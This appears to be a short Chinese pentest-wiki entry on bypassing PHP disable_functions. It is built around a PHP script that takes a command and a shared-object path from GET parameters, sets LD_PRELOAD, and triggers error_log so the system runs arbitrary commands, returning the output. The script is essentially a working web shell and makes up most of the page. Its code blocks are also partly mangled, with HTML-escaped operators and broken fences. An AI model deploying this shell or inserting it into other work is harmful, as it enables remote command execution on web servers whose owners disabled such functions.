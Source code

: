 ```yaml
---
title: "error_log"
id: zhfly3464
---
```


## error_log

> https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php

将mail例子中的mail("", "", "", "");替换为error_log("a",1);

```
<?php
    echo "<p> <b>example</b>: http://www.0-sec.org/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

```
$cmd = $_GET["cmd"];
$out_path = $_GET["outpath"];
$evil_cmdline = $cmd . " &gt; " . $out_path . " 2&gt;&amp;1";
echo "&lt;p&gt; &lt;b&gt;cmdline&lt;/b&gt;: " . $evil_cmdline . "&lt;/p&gt;";

putenv("EVIL_CMDLINE=" . $evil_cmdline);

$so_path = $_GET["sopath"];
putenv("LD_PRELOAD=" . $so_path);

error_log("a",1);

echo "&lt;p&gt; &lt;b&gt;output&lt;/b&gt;: &lt;br /&gt;" . nl2br(file_get_contents($out_path)) . "&lt;/p&gt;"; 

unlink($out_path); 
``` `?>` 
```